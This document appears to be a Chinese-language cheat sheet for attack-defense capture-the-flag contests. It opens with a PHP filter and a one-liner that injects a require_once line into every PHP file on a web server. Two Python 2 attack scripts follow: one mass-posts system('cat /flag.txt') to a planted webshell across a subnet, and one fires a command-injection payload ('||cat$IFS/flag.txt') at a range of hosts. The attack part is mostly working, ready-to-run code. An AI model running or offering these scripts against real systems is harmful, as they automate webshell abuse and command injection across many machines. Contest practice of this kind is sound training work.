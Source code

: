 # waf
```php
<?php
foreach($_REQUEST as $f){
    if(preg_match('/\S/m',$f))
    {
        die('cnm');
    }
}>
```

写在/tmp下，然后执行命令

    find /var/www/html -name "*.php"|xargs sed -i "s/<?php/<?php\nrequire_once('\/tmp\/waf.php');/g"

直接上awf
## 注意，以下所有脚本都是基于python2的，一定要学习Python2脚本
# 一句话木马脚本(看好是post还是get,如果是get自己修改下面命令注入的脚本)
```python
import requests
import re
url="http://172.20."         #ip地址，如果是1.1.1.1,1.1.2.1请使用这个，然后根据网段自行修改自行修改
urll=".1/shell.php"          #如果不是index.php请自行修改为一句话木马的地址
payload={"shell":"system('cat /flag.txt');"}     #shell为一句话木马密码，请自行修改
for i in range(101,109):                   #从192.168.1.1-192.168.10.1,请根据靶机ip自行修改
    print(url+str(i)+urll)
    i=str(i)        #将i转换成字符型，不然无法拼接
    cc=url+i        #拼接
    cc=cc+urll      #拼接
    try:
        a=requests.post(url=cc,data=payload,timeout=1).text
        b=re.findall(r'[a-z0-9]{15,30}',a)      #正则匹配，表示匹配小写字母与数字组合长度为15-30位，根据flag位数自行修改，例如确定flag是20位那就直接r'[a-z0-9]{20}'
    except:
        b=''
    if len(b)>0:
        for j in b:
            f=open('1.txt','a+')    #输出至1.txt,可以自行修改
            f.write(url+i+".1 "+j+'\n')     #靶机ip第四位.1,根据情况自行修改
```
# 命令注入与文件包含通用脚本(根据漏洞自行修改)
```python
import requests
import re
url="172.20.10."
urll="/index.php?abc=127.0.0.1||cat$IFS/flag.txt"   #自行修改payload，本脚本展示get型命令注入与文件包含，看好题型如果是post自行修改
for i in range(1,10):
    i=str(i)
    try:
        a=requests.get(url=url+i+urll).text
        b=re.findall(r'flag{.*}', a)
    except:
        b=''
    if(len(b)>0):
        for j in b:
            f=open('1.txt','a+')
            f.write(url+i+" "+j+'\n')
```